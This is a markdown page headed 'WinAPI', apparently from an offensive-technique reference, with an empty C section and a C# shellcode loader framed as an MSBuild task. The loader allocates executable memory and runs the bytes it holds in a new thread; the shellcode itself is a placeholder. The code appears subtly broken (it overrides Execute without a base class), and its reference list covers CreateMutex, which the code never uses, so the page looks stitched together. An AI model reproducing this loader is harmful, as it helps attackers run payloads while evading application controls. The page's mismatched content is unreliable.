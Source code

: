# WinAPI

## C

```

```

## C\#

```cs
using System;
using System.Runtime.InteropServices;
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;

public class Program {
    // Constants for memory allocation and page protection
    private const uint MEM_COMMIT = 0x1000;
    private const uint PAGE_EXECUTE_READWRITE = 0x40;

    [DllImport("kernel32")]
    private static extern uint VirtualAlloc(uint lpStartAddr, uint size, uint flAllocationType, uint flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(uint lpThreadAttributes, uint dwStackSize, uint lpStartAddress, IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

    [DllImport("kernel32")]
    private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

    public override bool Execute() {
        byte[] shellcode = new byte[] { 0x00 };

        uint funcAddr = VirtualAlloc(0, (uint)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (funcAddr == 0) {
            Log.LogError("Memory allocation failed.");
            return false;
        }

        // Copy shellcode to allocated memory
        Marshal.Copy(shellcode, 0, (IntPtr)funcAddr, shellcode.Length);

        // Create a new thread to execute the shellcode
        uint threadId = 0;
        IntPtr pinfo = IntPtr.Zero;
        IntPtr hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

        if (hThread == IntPtr.Zero) {
            Log.LogError("Thread creation failed.");
            return false;
        }

        WaitForSingleObject(hThread, 0xFFFFFFFF);

        Log.LogMessage("Shellcode executed successfully.");
        return true;
    }
}

```

---
## References

### Microsoft

- [WinAPI Documentation: `CreateMutexW`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-createmutexw)

- [WinAPI Documentation: `CreateMutexExW`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-createmutexexw)

### MalAPI

- [MalAPI: `CreateMutexExA`](https://malapi.io/winapi/CreateMutexExA)

### Tenouk

- [Tenouk: Processes and Threads - Synchronization - Part 4](https://www.tenouk.com/ModuleAA.html)

- [Tenouk: Processes and Threads - Synchronization - Part 5](https://www.tenouk.com/ModuleAA1.html)

- [Tenouk: Windows Process and Thread References 3](https://www.tenouk.com/crstufunction2.html)

- [Tenouk: Windows Thread Synchronization References 1](https://www.tenouk.com/crstufunction3.html)

### Cocomelonc

- [Cocomelonc: WinAPI `CreateMutexA` Implementation](https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html)